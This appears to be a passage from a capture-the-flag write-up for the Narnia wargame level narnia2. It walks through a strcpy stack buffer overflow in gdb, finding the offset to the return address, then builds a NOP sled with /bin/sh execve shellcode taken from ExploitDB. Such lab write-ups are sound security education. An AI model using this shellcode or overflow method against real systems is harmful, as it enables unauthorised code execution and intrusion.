 ```nasm
   0x08048479 <+46>:	push   eax
   0x0804847a <+47>:	lea    eax,[ebp-0x80]
   0x0804847d <+50>:	push   eax
   0x0804847e <+51>:	call   0x8048310 <strcpy@plt>
   0x08048483 <+56>:	add    esp,0x8
   0x08048486 <+59>:	lea    eax,[ebp-0x80]
   0x08048489 <+62>:	push   eax
   0x0804848a <+63>:	push   0x8048534
   0x0804848f <+68>:	call   0x8048300 <printf@plt>
   0x08048494 <+73>:	add    esp,0x8
   0x08048497 <+76>:	mov    eax,0x0
   0x0804849c <+81>:	leave
   0x0804849d <+82>:	ret
End of assembler dump.
(gdb) run $(python -c 'print 140 * "A"')
Starting program: /narnia/narnia2 $(python -c 'print 140 * "A"')

Breakpoint 1, 0x0804848f in main ()
(gdb) conti
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Now, we adjust our string size to precisely overwrite the return address.

```nasm
(gdb) run $(python -c 'print 132 * "A" + "BBBB"')
Starting program: /narnia/narnia2 $(python -c 'print 132 * "A" + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

As you can see, we need 132 bytes of garbage and 4 more bytes to overwrite the retrun address. Now, we need a shellcode and a return address that will read our shellcode. I choose another shellcode from [ExploitDB](https://www.exploit-db.com/exploits/43716) :

```text
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
```

To find the return address I placed a breakpoint right after the *strcpy()* call :

```nasm
(gdb) set disassembly-flavor intel
(gdb) break *main+68
Breakpoint 1 at 0x804848f
(gdb) run $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "BBBB"')
Starting program: /narnia/narnia2 $(python -c 'print 104 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "BBBB"')

Breakpoint 1, 0x0804848f in main ()
(gdb) x/100x $esp+500
0xffffd784:	0x000036b2	0x0000000e	0x000036b2	0x00000017
0xffffd794:	0x00000001	0x00000019	0xffffd7cb	0x0000001a
0xffffd7a4:	0x00000000	0x0000001f	0xffffdfe8	0x0000000f
0xffffd7b4:	0xffffd7db	0x00000000	0x00000000	0x00000000
0xffffd7c4:	0x00000000	0xa9000000	0x55fe0723	0x4a68d3c6
0xffffd7d4:	0xcc5d0b96	0x698947e8	0x00363836	0x00000000
0xffffd7e4:	0x00000000	0x00000000	0x616e2f00	0x61696e72
0xffffd7f4:	0x72616e2f	0x3261696e	0x90909000	0x90909090
0xffffd804:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd814:	0x90909090	0x90909090	0x90909090	0x90909090
```